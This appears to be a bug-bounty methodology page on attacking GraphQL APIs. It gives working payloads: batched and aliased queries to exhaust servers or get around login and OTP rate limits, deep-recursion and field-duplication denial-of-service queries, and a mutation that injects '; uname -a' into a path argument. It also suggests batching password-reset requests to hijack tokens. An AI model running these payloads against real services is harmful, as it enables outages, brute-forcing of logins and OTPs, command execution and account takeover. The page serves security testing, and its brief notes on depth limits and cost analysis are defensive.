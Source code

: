 
# I - Batch Query Attacks

If a resource intensive GraphQL query is identified, batch processing can be used to call the query and potentially overwhelm the service for a prolonged period of time.

```
data = [
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]},
{"query":"query {\n  systemUpdate\n}","variables":[]}
]
requests.post('http://host/graphql', json=data)
```

### 1 Aliases based Attack
If batching is disabled, use [aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases), if the server is not analyzing the cost of the query, it can be used to DOS, or it can be used to bypass rate limiting on Login, OTP...

```
query {
  t1:systemUpdate
  t2:systemUpdate
  t3:systemUpdate
  t4:systemUpdate
}
```

> [!NOTE]
> if Cost Query Analysis is enabled, it should prevent running batched queries.


# II - Denial of Service
### 1 :: Deep Recursion Query Attack
If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

![Example](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255)

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          name
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

### 2 :: Resource Intensive Query Attack
Some queries may be computationally more expensive than others, as they would trigger more complex backend logic in order to fulfill the query resolution. we can abuse it by calling these actions frequently in order to cause resource exhaustion.
```
query {
  t1:systemUpdate
}
```
Execution Time :: 81 seconds
> [!NOTE]
> if Query Cost Analysis protection is implemented it should it!
### 3 Field Duplication Attack
Various GraphQL implementation do not bother de-duplicating repeating fields in GraphQL, allowing the user to multiply the same requested fields as they wish.
```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ipAddr # 1000
          }
        }
    }
}
```

### 4 Circular Fragment
The GraphQL API allows creating circular fragments, such that two fragments are cross-referencing eachother. When a Spread Operator (...) references a fragment, which in return references a 2nd fragment that leads to the former fragment, may cause a recursive loop and crash the server.

Resources
 GraphQL Specification - Fragments Must Not Form Cycles
 GraphQL Cop - Security Auditing Tool for GraphQL

# III Information Disclosure
### 1 GraphQL suggestions
when Introspection is not allowed suggesstions can be used togain more insight into GraphQL's schema, 
[Clairvoyance - GQL Security tool for field enumeration](https://github.com/nikitastupin/clairvoyance)


### 2 GraphQL Interface
GraphiQL is usually found in paths such as: /graphiql or /console, however it can be found in [other places too](https://raw.githubusercontent.com/anmolksachan/anmolksachan.github.io/main/graphql/graphql-common.txt)


# IV - OWASP
### 1 CSRF
Doesn't differ from regular [CSRF](https://portswigger.net/web-security/graphql#graphql-csrf) 
### 2 OS Command Injection
```
mutation  {
  importPaste(host:"localhost", port:80, path:"/ ; uname -a", scheme:"http"){
    result
  }
}
```
SSRF, SQLi, XSS, Path Traversal
## Refrences
- [GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)

## Tools
- ShapeShifter - GQL Security tool for Schema Extraction
- Clairvoyance - GraphQL Schema Enumeration Discovery Tool
- graphw00f - GraphQL Fingerprinting Tool
- https://github.com/dolevf/graphql-cop.gitDirective OverloadingDirective Overloading

## Ideas:
- Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack

